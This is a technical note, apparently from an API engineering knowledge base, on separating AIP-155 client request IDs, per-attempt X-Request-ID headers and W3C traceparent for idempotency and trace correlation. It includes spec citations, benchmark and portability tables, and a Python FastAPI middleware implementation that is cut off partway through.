

# Request Identification: Client request_id (AIP-155) vs Server X-Request-ID and Trace Correlation

> [!summary] Claim
> A request carries three identifiers with three owners and three lifetimes: the client's `request_id` names one logical operation and is reused on every retry, the server's `X-Request-ID` names one attempt and is new on every retry, and `traceparent` joins that attempt to the caller's distributed trace; merging any two of them silently breaks either idempotency or debugging.

Part of [Bulk Long Running and Error Contracts](README.md) in [API Engineering](../README.md).

## TL;DR

- Mechanism: the client mints a UUIDv4 `request_id` in the body, the server dedupes on `(principal, method, canonical UUID)`; a pure ASGI middleware mints a per-attempt `X-Request-ID`, continues or restarts the W3C trace, binds all three to a `ContextVar`, and stamps every response, including `500`s.
- Contract rule: AIP-155 says "Providing a request ID must guarantee idempotency" and annotates the field `(google.api.field_info).format = UUID4`; AIP-202 says UUIDs "must not be" compared as text, and Google Cloud APIs document that the "zero UUID is not supported (00000000-0000-0000-0000-000000000000)".
- The trap: `uuid.UUID()` and pydantic's `UUID4` both accept `urn:uuid:...`, braces, and missing hyphens, `uuid.UUID()` accepts hyphens anywhere, and a FastAPI `Exception` handler runs outside user middleware, so the crash responses you most need to correlate leave without an `X-Request-ID`.
- Portability fact: the lab passed unchanged on CPython 3.12.13, 3.12.16, 3.13.18, 3.14.6, 3.14.10, 3.15.2, and free-threaded 3.14.6t, 3.15.0b3t, and 3.15.2t, on macOS and in Debian Trixie and Alpine musl containers, and the app answered over HTTP/1.1, HTTP/2, and HTTP/3 sockets; `uuid.uuid7()`, `uuid.NIL`, and `UUID(..., version=7)` exist only from 3.14, so the lab only parses v7 and never generates it.
- When not to use it: skip a body `request_id` for naturally idempotent methods (`GET`, `PUT` full replacement, `DELETE` by name), prefer the `Idempotency-Key` header when generic HTTP clients and proxies must see the key, and never adopt an inbound `X-Request-ID` that did not come from your own edge.

## Mental model



The client keeps one `request_id` R for the logical create and sends it on both attempts, while its tracer gives each attempt a new parent span id inside the same trace T.
The middleware mints a fresh attempt id (A1, then A2) and a fresh server span (S1, then S2) and makes all of them visible to the handler and the logger through one `ContextVar`.
The handler looks up R under the caller's principal: the first attempt creates `books/1` and stores the response, and the second attempt finds the key, checks that the payload fingerprint matches, and replays the same `201` body.
The two responses are identical except for `X-Request-ID`, so support can tell the attempts apart, while the logs join them by `client_request_id = R` and by `trace_id = T`.

## How it works

### Three identifiers, three owners

| Identifier | Minted by | Carried in | Changes on retry | Uniqueness scope | Purpose |
|---|---|---|---|---|---|
| `request_id` (AIP-155) | Client | Request message (JSON body) | No | Per principal and method, for a published window | Idempotency: process the operation once |
| `X-Request-ID` | Server or its own edge | Response header (and edge to origin request header) | Yes | One attempt | Correlation: find this attempt in logs |
| `traceparent` trace-id | First traced hop | `traceparent` request header | No (same trace) | One distributed trace | Causality across services |
| `traceparent` parent-id | Each caller | `traceparent` request header | Yes | One span | Parent-child edges in the trace |

Google's own error model shows the split in its names: `google.rpc.RequestInfo.request_id` is "An opaque string that should only be interpreted by the service generating it. For example, it can be used to identify requests in the service's logs" (googleapis master `google/rpc/error_details.proto`, `RequestInfo`, commit `547f8fdb`, fetched 2026-11).
That field is the server's attempt id, the opposite owner from the AIP-155 field with the same name, so the lab never writes a field called bare `request_id` in logs; it writes `client_request_id` and `server_request_id`.

### AIP-155: what the contract requires

AIP-155 says "APIs may add a string request_id parameter to request messages (including those of standard methods) in order to uniquely identify particular requests" (AIP-155, Guidance, as of 2026-11).
The example field is documented "A unique identifier for this request. Restricted to 36 ASCII characters. A random UUID is recommended. This request is only idempotent if a `request_id` is provided", and carries `[(google.api.field_info).format = UUID4]` (AIP-155, Guidance).
The rules are: "Providing a request ID must guarantee idempotency"; "If a duplicate request is detected, the server should return the response for the previously successful request, because the client most likely did not receive the previous response"; "APIs may choose any reasonable timeframe for honoring request IDs"; the field "must not be a field on resources themselves"; "Request IDs should be optional"; and "The format restrictions for request IDs must be documented" (AIP-155, Guidance).
If the resource changed since, "the method may return the current state of the resource instead" (AIP-155, Stale success responses).

AIP-202 defines `UUID4` as "a UUID version 4 value as governed by RFC 4122" which "may be normalized by the service to entirely lowercase letters", and concludes "equivalence comparison must not be done via primitive text comparison. Instead, an RFC 4122 compliant implementation must be used" (AIP-202, Format, UUID4).
RFC 4122 is obsoleted by RFC 9562, whose header reads `Obsoletes: 4122`.
`field_info.proto` illustrates the normalization with `F47AC10B-58CC-0372-8567-0E02B2C3D479` (googleapis master `google/api/field_info.proto`, `FieldInfo.Format.UUID4`); its third group starts with `0`, so that value is version 0, not version 4, and both pydantic's `UUID4` and the lab reject it (the `version-0` test case).
Concrete Google Cloud APIs add the rule AIP-155 omits: "The request ID must be a valid UUID, with the exception that zero UUID is not supported (00000000-0000-0000-0000-000000000000)", with a dedupe guarantee "for at least 60 minutes" (googleapis master `google/cloud/networkconnectivity/v1/hub.proto`, `CreateHubRequest.request_id`, commit `547f8fdb`, as of 2026-11; `google/cloud/alloydb/v1/service.proto`, `CreateSecondaryClusterRequest.request_id` states the same rule without the comma and the same 60 minutes).

### The UUID grammar is stricter than every parser you have

RFC 9562 defines the text form as `UUID = 4hexOctet "-" 2hexOctet "-" 2hexOctet "-" 2hexOctet "-" 6hexOctet`, and "the alphabetic characters may be all uppercase, all lowercase, or mixed case" `(RFC 9562 Section 4)`, which is exactly 36 characters.
A version 4 UUID sets the 4-bit `ver` field to `0b0100` in bits 48 to 51 and the 2-bit `var` field to `0b10` in bits 64 and 65, leaving 122 random bits `(RFC 9562 Section 5.4)`.
The Nil UUID has "all 128 bits set to zero" and is "reserved" to express "no such value here" `(RFC 9562 Section 5.9)`; the Max UUID has all bits set `(RFC 9562 Section 5.10)`; neither carries the RFC variant.

The parsers in a Python API stack accept far more than that grammar:

- CPython's `UUID.__init__` does `hex.replace('urn:', '').replace('uuid:', '')`, then `hex.strip('{}').replace('-', '')`, and checks only that 32 characters remain before `int(hex, 16)` (CPython 3.14.6 `Lib/uuid.py`, `UUID.__init__`), so `uuid.UUID("9-1-9-1-08f752d143209bacf847db4148a8")` succeeds; the lab test `test_stdlib_and_pydantic_parsers_are_lax_so_a_grammar_check_must_come_first` asserts it.
- `UUID.version` returns a number only `if self.variant == RFC_4122` and `None` otherwise (CPython 3.14.6 `Lib/uuid.py`, `UUID.version`; same body in 3.12.0), so a version check alone also rejects Nil, Max, and Microsoft-variant values.
- pydantic's `UUID4` is `Annotated[UUID, UuidVersion(4)]` (pydantic 2.14.3 `pydantic/types.py`, `UUID4`), validated by `Uuid::parse_str` from the Rust `uuid` crate (pydantic-core 2.50.4 `src/validators/uuid.rs`, `UuidValidator.get_uuid`; the crate is required as `uuid = "1.23.2"` in `pydantic-core/Cargo.toml` and locked at `1.23.4` in `pydantic-core/Cargo.lock`, both at tag `v2.14.3`); the lab shows it accepts `urn:uuid:919108f7-...`, a 45-character string that AIP-155's "Restricted to 36 ASCII characters" excludes, and the braced and 32-hex forms, and rejects only the misplaced hyphens.

So `parse_request_id` checks the 36-character grammar with `re.fullmatch` first (with `re.match` and `$`, a trailing `\n` would pass, which mutation M1 shows), then parses, then rejects Nil explicitly with its own message, then requires `value.version in versions`.
`canonical_request_id` returns `str(uuid)`, the lowercase form, and that string is the dedupe key, so `919108F7-...` and `919108f7-...` are the same request, as AIP-202 requires (mutation M5 keys on the raw text and the uppercase retry creates a second book).

### Dedupe key, fingerprint, and replay

The key is `(principal, method, canonical request_id)`.
The principal is in the key because AIP-155 says nothing about scope, and a global key turns a guessed or leaked `request_id` into a read of another tenant's response (mutation M6 drops the principal and Bob receives Alice's `books/1`).
The method is in the key so one UUID reused across `CreateBook` and `CreateShelf` cannot replay the wrong response (lab test `test_request_id_is_scoped_per_method_so_another_method_is_not_a_replay`; mutation N2 drops the method and the shelf call returns `books/1`).
The store remembers a SHA-256 fingerprint of every field except `request_id`; the HTTP `Idempotency-Key` draft says "If there is an attempt to reuse an idempotency key with a different request payload, the resource SHOULD reply with an HTTP 422 status code" (draft-ietf-httpapi-idempotency-key-header-08 Section 2.7), and the lab follows it.
A replay returns the stored `201` body unchanged, which is the "response for the previously successful request" (AIP-155, Guidance).
Holding the replay record in a durable store with a uniqueness constraint, and making the in-flight case atomic, belongs to [[Atomic-Idempotency-Phases-and-Failure-Recovery-Across-Network-Drops]] and [[Idempotency-Key-Header-Specification-and-State-Machine-Draft-08]]; this note covers what the identifier is and how it is compared.

### `X-Request-ID`: a convention, not a standard

`X-Request-ID` is not in the IANA HTTP Field Name Registry, which lists `Traceparent` and `Tracestate` as `permanent` (IANA `http-fields` registry, last updated 2026-11-02, fetched 2026-11).
BCP 178 tells creators of new parameters that they "SHOULD NOT prefix their parameter names with "X-" or similar constructs" `(RFC 6648 Section 3)`, so the name survives only as a widely copied convention with no specified grammar, length, or trust model.
The lab therefore defines its own contract: the value is a lowercase RFC 9562 UUID, minted per attempt with `uuid.uuid4()`, sent on every response, and adopted from the request only when the app is configured to trust its edge (`trust_inbound=True`) and the value is a single well-formed UUID.

Duplicates are a trust question, not a parsing detail.
RFC 9110 says "a sender MUST NOT generate multiple field lines with the same name in a message ... unless that field's definition allows multiple field line values to be recombined as a comma-separated list" `(RFC 9110 Section 5.3)`, and that a server must not act until it has the whole header section, because later lines "might include ... deliberately misleading duplicate header fields" `(RFC 9110 Section 5.3)`.
Starlette's `Headers.__getitem__` returns the first matching line (starlette 1.10.0 `starlette/datastructures.py`, `Headers.__getitem__`), so `request.headers["x-request-id"]` silently picks one of two attacker-ordered values; the middleware reads the raw ASGI `scope["headers"]` list and treats two lines as no trusted value (mutation M12).
A field value may also carry `obs-text` octets (`obs-text = %x80-FF`), and "A recipient SHOULD treat other allowed octets in field content (i.e., obs-text) as opaque data" `(RFC 9110 Section 5.5)`, so the middleware decodes every value as Latin-1, which cannot fail, and lets the UUID grammar reject it; decoding as ASCII raises before the `try` block and turns one junk header into an unstamped crash (lab test `test_non_ascii_header_bytes_are_ignored_instead_of_crashing_the_middleware`; mutation N24).
For size, RFC 9110 says "A server that receives a request header field line, field value, or set of fields larger than it wishes to process MUST respond with an appropriate 4xx (Client Error) status code" `(RFC 9110 Section 5.4)`; the 36-character grammar caps what can reach a log line, and h11 bounds an incomplete request line plus header section at `DEFAULT_MAX_INCOMPLETE_EVENT_SIZE = 16 * 1024` bytes, raising `RemoteProtocolError` with `error_status_hint=431` beyond it (h11 0.16.0 `h11/_connection.py`, `DEFAULT_MAX_INCOMPLETE_EVENT_SIZE` and `Connection.next_event`), which Uvicorn's h11 protocol exposes as `h11_max_incomplete_event_size` (uvicorn 0.54.0 `uvicorn/config.py`, `Config.__init__`).

### `traceparent`: continue, or restart

W3C Trace Context defines `traceparent` as `version "-" trace-id "-" parent-id "-" trace-flags`, with `trace-id = 32HEXDIGLC` ("All zeroes forbidden"), `parent-id = 16HEXDIGLC` ("All zeroes forbidden"), and lowercase hex only (W3C Trace Context Level 1, Recommendation 2021-11-23, Sections 3.2.2 and 3.2.2.2).
"Version ff is invalid", and "If the trace-id value is invalid (for example if it contains non-allowed characters or all zeros), vendors MUST ignore the traceparent" (Section 3.2.2.1 and 3.2.2.3).
For a higher version, "If the size of the header is shorter than 55 characters, the vendor should not parse the header", and otherwise parses the three known fields and requires the flags to be followed by the end of the string or a dash (Section 3.2.4).
The sampled flag is bit 0 of `trace-flags`, and the spec warns "A common mistake in bit fields is forgetting to mask when interpreting flags" (Section 3.2.2.5); the agreement test includes flags `02`, which an unmasked check would read as sampled.
"Vendors MUST expect the header name in any case" (Section 3.2.1), and the ASGI HTTP spec says request "Header names should be lowercased, but it is not required" (ASGI HTTP and WebSocket spec, HTTP connection scope, `headers`, as of 2026-11).
`httpx.ASGITransport` lowercases names itself (`(k.lower(), v) for (k, v) in request.headers.raw`, httpx 0.28.1 `httpx/_transports/asgi.py`), which hides the case where a server does not, so the middleware lowercases every name before matching and a raw-ASGI test sends `X-Request-ID` and `Traceparent` (mutation M27 matches exact bytes and that test fails).

`parse_traceparent` implements those rules with one `fullmatch` and three checks, and the lab cross-checks it against OpenTelemetry's `TraceContextTextMapPropagator.extract` on fourteen inputs, including a later version at exactly 55 characters and flags followed by text that is not a dash (mutation N17 swaps `fullmatch` for `match` and that case fails); both accept and reject the same values and agree on trace id, parent id, and sampled bit.
OpenTelemetry's regex, built from two concatenated literals and applied with `re.search`, is `^[ \t]*([0-9a-f]{2})-([0-9a-f]{32})-([0-9a-f]{16})-([0-9a-f]{2})(?:(-.*)|[ \t]*)$`, it drops headers longer than `_TRACEPARENT_MAXIMUM_LENGTH = 512`, rejects all-zero ids, rejects `00` with trailing fields, and rejects `ff` (opentelemetry-api 1.45.2 `opentelemetry/trace/propagation/tracecontext.py`, `TraceContextTextMapPropagator.extract`); `tracestate` is capped at `_TRACECONTEXT_MAXIMUM_TRACESTATE_LENGTH = 8192` (`opentelemetry/trace/span.py`).
The lab strips surrounding spaces and tabs to match that leading and trailing whitespace tolerance.
The two parsers differ on one input that an HTTP field value cannot carry: `$` under `re.search` also matches before a trailing `\n`, so OpenTelemetry accepts `00-...-01\n` and the lab's `fullmatch` rejects it (run with a temporary script on CPython `3.14.6`).
When the header is valid, the server keeps the trace id, records the caller's span as `parent_id`, mints its own `span_id` (mutation M22 reuses the caller's span id and the test catches it), and carries the sampled bit into the handler's context (lab test `test_sampled_bit_and_parent_of_a_continued_trace_reach_the_handler_context`); when invalid or duplicated, it restarts with a new trace id (the lab test `test_duplicate_traceparent_lines_restart_the_trace` covers two field lines).
OpenTelemetry also ships a `TraceResponsePropagator`, docstring "Experimental propagator that injects tracecontext into HTTP responses", which writes a `traceresponse` header and `Access-Control-Expose-Headers` (opentelemetry-instrumentation 0.66b2 `opentelemetry/instrumentation/propagators.py`, `TraceResponsePropagator.inject`); the lab instead returns `trace_id` inside error bodies, which needs no unregistered header.

### Where the middleware must sit

FastAPI builds the stack as `ServerErrorMiddleware`, `ExceptionTelemetryMiddleware`, then `self.user_middleware`, then `ExceptionMiddleware` and `AsyncExitStackMiddleware`, and a handler registered for `500` or `Exception` becomes `ServerErrorMiddleware`'s `handler` (fastapi 0.162.0 `fastapi/applications.py`, `FastAPI.build_middleware_stack`; Starlette makes the same handler split, with an optional `RequestBodyLimitMiddleware` where FastAPI has `ExceptionTelemetryMiddleware`, in starlette 1.10.0 `starlette/applications.py`, `Starlette.build_middleware_stack`).
So an `Exception` handler runs after every user middleware has unwound: its `ContextVar.reset` has run and its `send` wrapper is gone.
The lab test `test_fastapi_exception_handler_runs_outside_user_middleware_so_it_loses_the_id` proves it with a stamp-only middleware: the `500` has no `x-request-id`, and the handler reads `None` from the context variable, while a `404` from the same app is stamped.
`CorrelationMiddleware` therefore catches the exception itself, logs `unhandled_exception` with the attempt id, and renders the `500` problem through its own stamped `send` if no response has started; if headers already left, it re-raises, because nothing safe can be added after `http.response.start` (lab test `test_crash_after_response_start_is_reraised_without_a_second_response`; mutation M14 narrows the `except` and the `500` loses its id).
The `unhandled_exception` record stores the exception class name and never its message, and a scope that is not `http` passes through with the original `send` and no log record (lab test `test_non_http_scopes_pass_through_with_the_original_send_and_no_log`).
A `RequestValidationError` handler is registered in `ExceptionMiddleware`, inside the user middleware, so the `400` problem sees the context.
The middleware is pure ASGI rather than `BaseHTTPMiddleware`; see [[Pure-ASGI-Middleware-Onion-Architecture-and-Send-Receive-Wrapping]] and [[Why-BaseHTTPMiddleware-Hurts-Performance-Streaming-and-ContextVars]].

"Context variables are natively supported in asyncio" (Python docs, `contextvars`, asyncio support), and each request task sees its own value: the lab runs 20 concurrent requests whose handler yields with `await asyncio.sleep(0)`, and each response body reports its own attempt id; mutation M18 replaces the `ContextVar` with a module global and the test fails.
`httpx.ASGITransport` awaits `self.app(scope, receive, send)` in the calling task (httpx 0.28.1 `httpx/_transports/asgi.py`, `ASGITransport.handle_async_request`), so a missing `reset` leaks the value into the test task, which mutation M17 shows.

### Binding the attempt id to RFC 9457

`instance` "is a JSON string containing a URI reference that identifies the specific occurrence of the problem", and when it is not dereferenceable "it serves as a unique identifier for the problem occurrence that may be of significance to the server but is opaque to the client"; RFC 9457 makes it "RECOMMENDED that absolute URIs be used in "instance" when possible" `(RFC 9457 Section 3.1.5)`.
The lab sets `instance` to `urn:uuid:<X-Request-ID>`, the URN form shown in `(RFC 9562 Section 4)`, so the header and the body name the same occurrence and a user who pastes either one gives support the same key.
`trace_id` rides as an extension member, asserted on the `400` and the `500` body, which is allowed because "Clients consuming problem details MUST ignore any such extensions that they don't recognize" `(RFC 9457 Section 3.2)`.
The validation handler lists `field` and `message` but never pydantic's `input`, and the `500` says only "Quote the instance to support."; RFC 9457 warns of "leaking information that can be exploited to compromise the system" `(RFC 9457 Section 5)` (mutations M15 and M16 leak the exception text and the rejected value, and the tests catch both).
The full error-body design is in [[Problem-Details-for-HTTP-APIs-RFC-9457]] and [[Mapping-Pydantic-Validation-Errors-to-RFC-9457-Problem-Details]].

## Numbers and limits

Measured rows ran on an Apple M3 Pro, macOS `27.2` (`Darwin 27.2.0 arm64`), CPython `3.14.6`, with a temporary `timeit` script (`min` of 5 repeats of 200000 calls) run five times from `labs/` as `uv run --frozen python -I ../_bench.py`.
The machine was shared with other jobs during the runs (load average `59` to `77`), so each measured cell gives the lowest and highest of the five results and the absolute values are upper bounds.

| Quantity | Value | Source | Implication |
|---|---:|---|---|
| `request_id` length | `36` ASCII characters | AIP-155; RFC 9562 Section 4 ABNF | Reject `urn:uuid:` (45), braces (38), and 32-hex forms at the grammar step |
| Random bits in UUIDv4 | `122` | RFC 9562 Section 5.4 | Collisions are negligible if the client uses a CSPRNG (RFC 9562 Section 6.9) |
| Timestamp in UUIDv7 | `48`-bit Unix milliseconds | RFC 9562 Section 5.7 | A v7 key leaks creation time; RFC 9562 Section 8 prefers v4 for security uses |
| Dedupe window in Google Cloud APIs | at least `60` minutes | `hub.proto`, `service.proto` `(as of 2026-11)` | Publish your own window; AIP-155 allows "any reasonable timeframe" |
| `trace-id` / `parent-id` | `16` / `8` bytes (`32` / `16` lowercase hex) | W3C Trace Context Section 3.2.2 | All-zero values are invalid |
| `traceparent` version `00` length | `55` characters | W3C Trace Context Section 3.2.4 | Shorter future-version headers restart the trace |
| `tracestate` members | at most `32` | W3C Trace Context Section 3.3.1.1 | Bound parsing work per request |
| OpenTelemetry header caps | `512` (`traceparent`), `8192` (`tracestate`) | opentelemetry-api 1.45.2 | Longer headers are ignored, not rejected |
| h11 incomplete-event (request line plus headers) limit | `16 * 1024` bytes | h11 0.16.0 `h11/_connection.py`, `DEFAULT_MAX_INCOMPLETE_EVENT_SIZE` | The app-level grammar is what bounds log fields |
| `uuid.UUID(text)` | `463` to `652` ns | Measured | Baseline parse |
| `parse_request_id` (grammar + parse + checks) | `1058` to `1974` ns | Measured | About `0.6` to `1.3` us over the bare parse in the same run |
| `uuid.uuid4()` | `1324` to `3451` ns | Measured | Minting the attempt id cost more than validating the client's in all five runs |
| `parse_traceparent` | `805` to `1998` ns | Measured | |
| OpenTelemetry `extract` (context included) | `2207` to `4917` ns | Measured | Builds a `Context` and `NonRecordingSpan`, so not a like-for-like parse |
| Lab test suite | `60 passed in 0.61s` | Measured, Worked example | |

## Portability

| Leg | Version | Result |
|---|---|---|
| CPython `3.12` | `3.12.13` | Proven by lab: `60 passed in 1.15s` (`uv run --frozen --python 3.12` with a separate `UV_PROJECT_ENVIRONMENT`); `3.12.16` from the STYLE matrix is not installed on this host and is covered by the container row |
| CPython `3.13` | `3.13.18` | Proven by lab: `60 passed in 1.11s` (`--python /opt/homebrew/bin/python3.13`) |
| CPython `3.14` | `3.14.6` (workspace) and `3.14.10` | Proven by lab: `60 passed in 0.61s` (Worked example) and `60 passed in 1.05s` (`--python /opt/homebrew/bin/python3.14`) |
| CPython `3.15` | `3.15.2` | Proven by lab: `60 passed in 1.20s` (`--python /opt/homebrew/bin/python3.15`) |
| CPython `3.15` beta | `3.15.0b3` (uv default for `--python 3.15`) | Not run: pytest aborts loading the pinned `hypothesis` plugin with `ModuleNotFoundError: No module named 'hypothesis._native'`, also with `-p no:hypothesispytest` |
| CPython `3.15t` free-threaded | `3.15.2` free-threading build (python-build-standalone release `20261110`, `aarch64-apple-darwin`, unpacked in a temporary directory after its SHA-256 matched the release's `SHA256SUMS`), `sys._is_gil_enabled()` is `False` after importing `pydantic_core`, `fastapi`, and `opentelemetry.trace` | Proven by lab: `60 passed in 2.74s` via `PYTHONPATH=src uv run --no-project` with `--with` pins (the frozen workspace cannot install `psycopg-binary==3.3.8` on a free-threaded build) |
| CPython `3.15t` beta and `3.14t` free-threaded | `3.15.0b3+freethreaded` and `3.14.6+freethreaded`, GIL disabled on both | Proven by lab, same pins: `60 passed in 1.73s` and `60 passed in 1.40s` |
| Debian Trixie (glibc `2.41`) and Alpine (musl) containers, `linux/aarch64` | `3.12.16`, `3.13.18`, `3.14.10`, `3.15.2` (`python:<version>-trixie` and `python:<version>-alpine`) | Proven by lab: `60 passed` on all eight images, `0.60s` to `1.31s` (`docker run --rm --pull never` with `labs/` mounted read-only, `PYTHONPATH=/labs/src`, and the same pins installed by `pip --only-binary=:all:`) |
| CPython `3.15.2t` free-threaded in Debian Trixie and Alpine `3.22` containers, `linux/aarch64` | python-build-standalone release `20261110`, `aarch64-unknown-linux-gnu` and `aarch64-unknown-linux-musl` free-threading builds, each SHA-256 checked and mounted read-only into `debian:trixie` and `alpine:3.22`; GIL disabled on both | Proven by lab: `60 passed in 0.93s` (glibc) and `60 passed in 0.63s` (musl), same pins installed by `pip --only-binary=:all: --target` |
| `uuid.uuid7()`, `uuid.NIL`, `uuid.MAX` | CPython `>= 3.14` | Python docs `uuid` (`versionadded:: 3.14` in `Doc/library/uuid.rst` at `v3.14.0`), and all three are absent on `3.12.13` and `3.13.18` and present on `3.15.2` here; the lab uses `value.int == 0` and literal test vectors so it runs on 3.12 |
| `UUID(int=..., version=7)` | CPython `>= 3.14` | CPython 3.12.0 `Lib/uuid.py` checks `1 <= version <= 5`, 3.14.0 checks `1 <= version <= 8`, and `3.12.13` and `3.13.18` raise `ValueError('illegal version number')` here; parsing a v7 string and reading `.version` works on every leg above |
| pydantic `UUID4` laxness | pydantic 2.14.3 / pydantic-core 2.50.4 | Proven by lab (accepts the `urn:uuid:`, braced, and 32-hex forms; rejects misplaced hyphens) |
| Uvicorn, Hypercorn, Granian | `0.54.0`, `0.18.0`, `2.8.7` | Run over loopback sockets with a temporary script outside the lab, CPython `3.14.6`: over HTTP/1.1 on a raw socket with the field names written `X-Request-ID:` and `TraceParent:`, Uvicorn (`--http h11` and `--http httptools`), Hypercorn, and Granian each returned `200`, adopted the trusted id in lowercase, and continued the trace; Uvicorn lowercases names itself (uvicorn 0.54.0 `uvicorn/protocols/http/h11_impl.py`, `H11Protocol.handle_events`; `uvicorn/protocols/http/httptools_impl.py`, `HttpToolsProtocol.on_header`) |
| HTTP/1.1, HTTP/2, HTTP/3 | RFC 9112, RFC 9113, RFC 9114 | Run with the same script: HTTP/2 with prior knowledge over cleartext (Hypercorn and Granian) and over TLS with ALPN `h2` (Hypercorn), through `httpx` 0.28.1 and `h2` 4.4.1, and HTTP/3 over QUIC (Hypercorn, `aioquic` 1.7.2 on both ends, ALPN `h3`) each returned `200` with the id adopted and the trace continued; Uvicorn was run on HTTP/1.1 only and Granian on HTTP/1.1 and HTTP/2 only; header semantics are version-independent `(RFC 9110 Section 5.3)`, and HTTP/2 and HTTP/3 require lowercase field names on the wire `(RFC 9113 Section 8.2)` `(RFC 9114 Section 4.2)`: `h2` lowercases names when sending (h2 4.4.1 `h2/utilities.py`, `normalize_outbound_headers`), an `aioquic` client that sent uppercase names over HTTP/3 got no response within 15 s, and `aioquic` raises on an uppercase name when it validates received headers (aioquic 1.7.2 `aioquic/h3/connection.py`, `validate_header_name`), so mixed-case names are an HTTP/1.1 concern |

## Worked example

The [implementation](../labs/src/api_labs/f06_bulk_long_running_and_error_contracts/request_identification.py) exposes `POST /v1/books` (create with optional AIP-155 `request_id`), `POST /v1/shelves` (a second method with the same body, so the method part of the dedupe key is testable), `GET /v1/whoami` (echoes the correlation context), and `GET /v1/boom` (an unhandled error), behind `CorrelationMiddleware`.
The [test](../labs/tests/f06_bulk_long_running_and_error_contracts/test_idempotent_request_identification_and_request_id_correlation_aip_155.py) drives it in-process through `httpx.ASGITransport`, with a `SequentialIds` source so every attempt id, trace id, and span id is deterministic.
The `x-principal` header stands in for an authenticated caller; in production the principal comes from authentication, never from a client-chosen header.

### Implementation (`labs/src/api_labs/f06_bulk_long_running_and_error_contracts/request_identification.py`)

```python
"""Three identifiers, three jobs: AIP-155 request_id, server X-Request-ID, W3C traceparent.

- `request_id` (body, client-chosen, AIP-155): names one logical operation; retries reuse it.
- `X-Request-ID` (response header, server-assigned): names one attempt; retries get a new one.
- `traceparent` (W3C Trace Context): joins this attempt to the caller's distributed trace.
"""

import asyncio
import contextvars
import hashlib
import json
import re
import secrets
import uuid
from dataclasses import dataclass, field
from typing import Annotated, Protocol

from fastapi import FastAPI, Header, Request
from fastapi.exceptions import RequestValidationError
from fastapi.responses import JSONResponse
from pydantic import BaseModel, BeforeValidator, ConfigDict, Field
from starlette.types import ASGIApp, Message, Receive, Scope, Send

PROBLEM_JSON = "application/problem+json"
REQUEST_ID_HEADER = b"x-request-id"
TRACEPARENT_HEADER = b"traceparent"
V4_ONLY = frozenset({4})  # AIP-155: (google.api.field_info).format = UUID4
ANY_RFC9562_VERSION = frozenset(range(1, 9))

# RFC 9562 Section 4 ABNF: 8-4-4-4-12 hex digits, any letter case; exactly 36 ASCII characters.
_UUID_TEXT = re.compile(r"[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}", re.I)
# W3C Trace Context 3.2.2: lowercase hex; later versions may append "-" and more fields.
_TRACEPARENT = re.compile(r"([0-9a-f]{2})-([0-9a-f]{32})-([0-9a-f]{16})-([0-9a-f]{2})(-.*)?")

Log = list[dict[str, object]]


class RequestIdError(ValueError):
    """A request_id that is not an acceptable UUID; the message never echoes the input."""


def parse_request_id(raw: object, versions: frozenset[int] = V4_ONLY) -> uuid.UUID:
    """Grammar first, then value: stdlib and pydantic parsers accept far more than 36 chars."""
    if not isinstance(raw, str) or _UUID_TEXT.fullmatch(raw) is None:
        raise RequestIdError("request_id must be a 36-character hex-and-dash UUID")
    value = uuid.UUID(raw)
    if value.int == 0:
        raise RequestIdError("request_id must not be the nil UUID")
    if value.version not in versions:  # UUID.version is None unless the variant is RFC 9562
        raise RequestIdError(f"request_id must be a UUID of version {sorted(versions)}")
    return value


def canonical_request_id(raw: object) -> str:
    """AIP-202: compare UUIDs as values, so normalize to lowercase before using as a key."""
    return str(parse_request_id(raw))


RequestId = Annotated[str, BeforeValidator(canonical_request_id)]
Principal = Annotated[str, Header(pattern=r"^[a-z0-9-]{1,32}$")]


@dataclass(frozen=True, slots=True)
class TraceParent:
    trace_id: str
    parent_id: str
    sampled: bool


def parse_traceparent(value: str) -> TraceParent | None:
    """Return None (restart the trace) for anything W3C Trace Context says to ignore."""
    match = _TRACEPARENT.fullmatch(value.strip(" \t"))
    if match is None:
        return None
    version, trace_id, parent_id, flags, rest = match.groups()
    if version == "ff" or (version == "00" and rest is not None):
        return None
    if trace_id == "0" * 32 or parent_id == "0" * 16:
        return None
